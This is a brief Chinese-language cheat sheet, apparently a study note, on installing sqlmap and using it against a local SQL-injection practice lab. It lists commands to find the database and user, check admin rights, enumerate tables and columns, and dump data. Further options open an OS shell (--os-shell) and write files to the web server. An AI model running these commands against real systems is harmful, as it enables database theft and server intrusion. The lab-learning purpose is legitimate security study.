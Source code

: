 ### 安装

官网安装： https://sqlmap.org/  
建议迅雷下载，速度更快

目前 sqlmap 已支持 python3，直接把 git 包解压了，根目录下运行以下代码：  
`python sqlmap.py -h`

> 如果由内容，表示可以成功使用

<br>

### 常见代码

> 注意 URL 的双引号不要掉了

自动分析指定 url（--batch 自动分析，-u 指定 URL）  
`python sqlmap.py -u "http://sqli:10001/Less-1/?id=1" --batch`

获取当前数据库名称（若当前 URL 存在出入漏洞）  
`python sqlmap.py -u "http://sqli:10001/Less-1/?id=1" --current-db --batch`

获取当前用户名称（若当前 URL 存在出入漏洞）  
`python sqlmap.py -u "http://sqli:10001/Less-1/?id=1" --current-user --batch`

检查当前用户是否为管理员  
`--is-dba --batch`

爆指定数据库表格  
`-D 数据库名称 --tables --batch`

爆列  
`-D 数据库名称 -T 数据表名称 --columns --batch`

爆数据  
`-D 数据库名称 -T 数据表名称 -C 列1名称,列2名称,列3名称 --dump --batch`

<br>

查看网页根目录  
`--os-shell`

写某处文件到网站上某处（前提是远程主机开启了远程上传权限）  
`--file-write "本地文件相对路径" --file-dest "网站存储位置绝对路径"`

<br>

强制支持 https  
`--force-ssl`

<br>

### 实战
